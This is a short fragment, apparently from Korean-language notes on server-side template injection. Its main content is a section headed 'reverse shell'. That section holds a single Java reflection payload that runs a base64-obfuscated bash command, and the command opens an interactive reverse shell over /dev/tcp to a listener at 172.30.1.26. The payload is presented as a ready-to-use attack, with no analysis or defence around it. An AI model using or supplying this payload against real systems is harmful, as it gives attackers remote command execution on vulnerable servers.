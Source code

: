 ![](images/19.png)
 - 수신



## 추가3 리버스쉘

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec("bash -c {echo,YmFzaCAtaT4mL2Rldi90Y3AvMTcyLjMwLjEuMjYvMTMxMzEgMD4mMQ==}|{base64,-d}|{bash,-i}").waitFor()
```